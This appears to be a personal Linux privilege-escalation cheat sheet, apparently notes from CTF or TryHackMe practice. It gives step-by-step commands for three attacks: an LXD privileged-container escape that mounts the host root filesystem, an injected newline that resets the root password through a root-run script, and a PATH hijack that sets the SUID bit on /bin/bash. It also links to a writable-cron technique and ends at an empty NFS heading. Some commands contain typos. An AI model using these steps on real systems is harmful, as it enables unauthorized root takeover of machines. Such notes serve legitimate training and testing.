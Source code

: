 ```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
rm alpine-v3.13-x86_64-20210218_0139.tar.gz
sudo ./build-alpine
Transfer the .tar.gz file to shell
Find the lxc file if its not there by default
/snap/bin/lxc image import ./alpine-v3.18-x86_64-20230718_0359.tar.gz --alias myimage
    
/snap/bin/lxc init myimage ignite -c security.privileged=true
    
/snap/bin/lxc storage create pool dir
    
/snap/bin/lxc profile device add default root disk path=/pool=pool
    
/snap/bin/lxc storage list
    
/snap/bin/lxc init my image ignite -c security.privileged=true
    
/snap/bin/lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
    
/snap/bin/lxc start ignite
    
/snap/bin/lxc exec ignite /bin/sh
    
cd /mnt/root/root
```
## WRITABLE CRON DIR?
    
https://cheatsheet.haax.fr/linux-systems/privilege-escalation/crontab/#writable-cron-directory
    
## IS THERE A SCRIPTS THAT CHANGES PASSWORD OF USERS AND RUNS AS ROOT
    
Use the having passwords
```
Add "\\x0A\\x0Aroot:NewPass" in order to escape from the -e and to set the root password to NewPass
su root
```
    
## PATH: (Refer THM)
    
```
echo $PATH
echo "chmod +s /bin/bash" >> ps
export PATH=.:$PATH (setting as current path) 
chmod 777 ps
./rootownedfilee
```
## NFS:
